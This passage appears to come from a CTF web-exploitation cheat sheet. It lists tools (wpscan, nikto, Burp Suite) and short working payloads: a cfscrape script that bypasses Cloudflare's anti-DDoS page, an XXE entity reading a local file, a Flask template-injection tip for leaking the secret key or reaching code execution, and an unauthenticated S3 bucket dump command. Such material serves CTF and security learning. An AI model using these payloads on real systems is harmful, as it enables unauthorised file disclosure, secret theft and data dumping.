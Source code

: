 
* [CloudFlare Bypass](https://github.com/Anorov/cloudflare-scrape)

	If you need to script or automate against a page that uses the I'm Under Attack Mode from CloudFlare, or DDOS protection, you can do it like this with linked Python module.

	```python
	#!/usr/bin/env python

	import cfscrape

	url = 'http://yashit.tech/tryharder/'

	scraper = cfscrape.create_scraper()
	print scraper.get(url).content
	```

* [`wpscan`](https://wpscan.org/)

	* A Ruby script to scan and do reconnaissance on a [Wordpress](https://en.wikipedia.org/wiki/WordPress) application.


* XXE : XML External Entity

    Include local files in XML. Can be used to make an **LFI** from a XML parser.
    XML script to display the content of the file /flag :

    Dont forget to use <?xml version="1.0" encoding="UTF-16"?> on Windows (for utf16).

	``` xml
	<?xml version="1.0"?>
	<!DOCTYPE data [
	<!ELEMENT data (#ANY)>
	<!ENTITY file SYSTEM "file:///flag">
	]>
	<data>&file;</data>
	```


* Flask Template Injection

	Try `{{config}}` to leak out the secret key, or start to climb up the Python MRO to acheive code execution.

	[https://nvisium.com/resources/blog/2015/12/07/injecting-flask.html](https://nvisium.com/resources/blog/2015/12/07/injecting-flask.html), [https://nvisium.com/resources/blog/2016/03/09/exploring-ssti-in-flask-jinja2.html](https://nvisium.com/resources/blog/2016/03/09/exploring-ssti-in-flask-jinja2.html), [https://nvisium.com/resources/blog/2016/03/11/exploring-ssti-in-flask-jinja2-part-ii.html](https://nvisium.com/resources/blog/2016/03/11/exploring-ssti-in-flask-jinja2-part-ii.html)



* [`nikto`](https://github.com/sullo/nikto)

	Website scanner implemented in [Perl](https://en.wikipedia.org/wiki/Perl).


* [Burpsuite](https://portswigger.net/burp) :heart:

	Tool suite generally used to intercept and manipulate HTTP requests.


* AWS / S3 Buckets dump

	Dump all files from a S3 bucket without credentials.

	``` bash
	aws s3 cp --recursive --no-sign-request s3://<bucket_name> .
	```